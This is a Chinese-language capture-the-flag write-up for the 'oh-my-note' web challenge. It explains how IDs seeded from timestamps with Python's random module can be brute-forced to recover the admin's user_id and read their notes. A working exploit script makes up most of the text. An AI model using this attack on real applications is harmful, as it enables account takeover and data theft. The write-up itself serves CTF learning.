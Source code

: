 # oh-my-note

首先拿到源码，分析源码得知重点是下面这段代码

```
timestamp = round(time.time(), 4)
post_at = datetime.datetime.fromtimestamp(timestamp, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')
random.seed(user_id + post_at)
note_id = get_random_id()
```

用户第一次发送note的时候会以当前获取的时间的时间戳来设置随机数种子，并以这个种子为基础来生成user_id和note_id，同一个用户后面发送的note生成note_id时会直接使用数据库里存的user_id作为种子的一部分，所以我们翻一下已经发出来的note，找到admin最先发送的note，在这个post time附近去搜索当时准确的时间戳就可以在本地搜索找到admin的user_id了，然后向`/my_notes`发送user_id即可看到admin所有的notes了，其中包含一个有flag的note。

参考的exp如下

```
import random
import string
import time


def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)

    return ''.join([random.choice(alphabet) for _ in range(32)])


post_at = "2021-01-15 02:29 UTC"
timeArray = time.strptime(post_at, "%Y-%m-%d %H:%M UTC")
base_timestamp = int(time.mktime(timeArray) - time.mktime(time.gmtime(0)))

y = 'lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u'
flag = False

for i in range(0, 60):
    for j in range(0, 10000):
        timestamp = base_timestamp + i + round(j / 10000, 4)
        random.seed(timestamp)
        user_id = get_random_id()
        random.seed(user_id + post_at)
        note_id = get_random_id()
        if note_id == y:
            print(user_id)
            flag = True
            break
    if flag:
        break
```